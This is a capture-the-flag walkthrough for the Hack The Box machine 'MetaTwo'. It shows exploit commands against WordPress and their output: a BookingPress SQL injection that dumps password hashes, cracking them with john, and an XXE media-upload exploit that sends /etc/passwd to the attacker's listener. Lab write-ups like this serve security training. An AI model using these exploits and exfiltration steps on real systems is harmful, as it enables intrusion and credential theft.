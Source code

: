 # Box: MetaTwo
# Level: Easy
# OS: Linux
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.228.95 -v -p- -T4```

```
```
From our nmap scan we have 3 open ports, port 21 which runs ftp, port 22 which runs ssh and port 80 which runs http. We'll begin our enumeration today from port 21.



# Enumeration (Port 21)

Lets connect to the ftp server with anonymous login

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2f5531f2-d127-4e1b-b73a-be3969838d44)

oops, anonymous login now allowed.

There's not much to do here, lets move our enumeration to port 80


# Enumeration (Port 80)

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/56f533a2-04c3-4dab-ab6d-dac098d5ee7a)

We'll add that domain name to our ```/etc/hosts``` file, then try to load the webpage again

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/02be7144-38e9-43c2-ba0d-b591152d54fc)

This is a wordpress site

lets fireup our wpscan tool to help us enumerate this webpage for plugins

command:```wpscan --url http://metapress.htb --plugins-detection aggressive -t 60```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6e2f9e52-ca78-4a75-bb88-c1fb1977f00b)

We found 3 plugins, the version for the plugin ```bookingpress-appointment-booking``` actually has a public exploit

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/afdc3fc7-ae76-49fc-83ed-a1bc30ff52e1)

Lets exploit this




# Exploitation

You can download the exploit we'll be using [here](https://github.com/destr4ct/CVE-2022-0739/blob/main/booking-press-expl.py)

Running the exploit

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/metatwo]
└─$ python booking-press-expl.py                                       
- BookingPress PoC
usage: booking-press-expl.py [-h] -u URL -n NONCE
booking-press-expl.py: error: the following arguments are required: -u/--url, -n/--nonce
```
We need to provide the arguments ```--url``` and ```--nonce```, we have the url, but how do we get the nonce??

Navigate to the ```/events``` directory

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a23e6c33-5eba-4842-9b61-f85fba12f1dd)

Lets view the page source

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3e3e5933-82e2-4203-b96a-edf36371f374)

nice nice, we found the nonce, now lets run the exploit again

command:```python booking-press-expl.py -u http://metapress.htb/ -n 2e8c753422```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/metatwo]
└─$ python booking-press-expl.py -u http://metapress.htb/ -n 2e8c753422
- BookingPress PoC
-- Got db fingerprint:  10.5.15-MariaDB-0+deb11u1
-- Count of users:  2
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70|
```
Exploiting the SQLi, we were able to dump the db. Lets crack these hashes using john.

Save the hashes in a file say "hash", then we'll use john

command:```john hash --wordlist=/usr/share/wordlists/rockyou.txt```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/metatwo]
└─$ gedit hash            
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/metatwo]
└─$ cat hash             
admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/metatwo]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
partylikearockstar (manager)     
1g 0:00:09:29 DONE (2023-11-05 14:07) 0.001754g/s 25168p/s 25363c/s 25363C/s !!!@@@!!!..*7¡Vamos!
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed. 
```

Lets login with the creds

username:```manager```        password:```partylikearockstar```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3f77ff3a-dc63-455b-94d8-c6860a8cc74f)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cc06e7e4-5bbc-4053-a229-900f59ef4a52)

We are logged in

Doing my research I found out that the media library for this wordpress version actually has a public exploit

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/92c04fdb-a55e-4d87-9230-43139f1b3fe0)

You can download the exploit we'll be using from [here](https://github.com/0xRar/CVE-2021-29447-PoC)

To run this exploit, you have to provide your lhost, the port you want to listen on and also the file you want to read

command:```python PoC.py -l 10.10.14.153 -p 1234 -f /etc/passwd```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/964d438f-edad-4b37-9fc9-9c91709c67c0)

A ```payload.wav``` file was created in the same directory as the exploit when we ran it. So, what we'll do is upload the ```payload.wav``` fike, doing that should give us something on our listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3e166931-6e9b-4c90-ba59-f75a6a4a0572)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/548de113-b78c-4f4f-ae8b-09f939d794ec)

Checking our terminal

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/81b7b032-cd89-47cf-8c2f-ad4f833fb4fc)

We got something that looks like base4, we can decode that using the php script below

```php
<?php
echo zlib_decode(base64_decode('base64_here'));
?>
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cee5b0e3-f8fd-4ec9-866d-f19b1e6c3267)

nice nice, we were able to read the ```/etc/passwd``` file

































